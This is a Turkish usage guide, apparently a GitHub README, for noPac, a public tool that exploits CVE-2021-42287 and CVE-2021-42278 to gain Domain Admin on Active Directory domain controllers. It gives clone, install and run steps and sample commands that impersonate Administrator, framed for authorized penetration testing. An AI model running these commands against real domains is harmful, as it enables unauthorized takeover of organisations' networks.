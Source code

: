 # noPac Kullanım Rehberi

## noPac Nedir?

**noPac**, Active Directory ortamlarında CVE-2021-42287 ve CVE-2021-42278 güvenlik açıklarını istismar ederek yetki yükseltme işlemi gerçekleştirmek için kullanılan bir araçtır. Bu açıklar, bir saldırganın Domain Controller üzerinde sistem hakları elde etmesine olanak tanır.

> **Önemli Not:** noPac yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Ana Özellikleri

1. **CVE-2021-42287 ve CVE-2021-42278 Zafiyet İstismarı:**
   - Bu güvenlik açıklarını birleştirerek Domain Admin yetkileri elde eder.
2. **Hedef Domain Controller’a Erişim Sağlama:**
   - Domain Controller üzerinde sistem seviyesinde erişim elde eder.
3. **Hızlı ve Etkili Çalışma:**
   - Zafiyet istismarını basit bir komutla gerçekleştirir.

---

## İndirme ve Çalıştırma

noPac aracı GitHub üzerinden indirilebilir:

- [noPac GitHub Sayfası](https://github.com/Ridter/noPac)

### Çalıştırma Adımları

1. **Araç Dosyasını İndirin:**
   ```bash
   git clone https://github.com/Ridter/noPac.git
   cd noPac
   ```

2. **Gerekli Modülleri Kurun:**
   ```bash
   pip install -r requirements.txt
   ```

3. **Python ile Çalıştırın:**
   ```bash
   python3 noPac.py <parametreler>
   ```

---

## Kullanım Parametreleri

### 1. **`-u` veya `--user`**
- Kullanıcı adını belirtir.

  **Kullanım:**
  ```bash
  python3 noPac.py -u username
  ```

### 2. **`-p` veya `--password`**
- Kullanıcı şifresini belirtir.

  **Kullanım:**
  ```bash
  python3 noPac.py -u username -p password123
  ```

### 3. **`-d` veya `--domain`**
- Hedef domain adını belirtir.

  **Kullanım:**
  ```bash
  python3 noPac.py -u username -p password123 -d example.local
  ```

### 4. **`--impersonate`**
- Taklit edilecek kullanıcıyı belirtir (örneğin Administrator).

  **Kullanım:**
  ```bash
  python3 noPac.py -u username -p password123 -d example.local --impersonate Administrator
  ```

### 5. **`-h` veya `--help`**
- Yardım mesajını görüntüler.

  **Kullanım:**
  ```bash
  python3 noPac.py -h
  ```

---

## Örnek Kullanım Senaryoları

### 1. Domain Admin Yetkisi Elde Etme
```bash
python3 noPac.py -u user -p Passw0rd! -d example.local --impersonate Administrator
```

### 2. Yardım Mesajını Görüntüleme
```bash
python3 noPac.py -h
```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** noPac yalnızca güvenlik uzmanları ve yetkili sistem yöneticileri tarafından kullanılmalıdır.
- **Test Ortamı:** Araç, üretim ortamında kullanılmadan önce test ortamında değerlendirilmelidir.
- **Loglama:** Çalıştırılan komutlar sistem loglarına kaydedilebilir. Yasalara uygun hareket edilmelidir.

---

## Kaynaklar

- [noPac GitHub Sayfası](https://github.com/Ridter/noPac)
- [CVE-2021-42287 ve CVE-2021-42278 Hakkında Bilgi](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
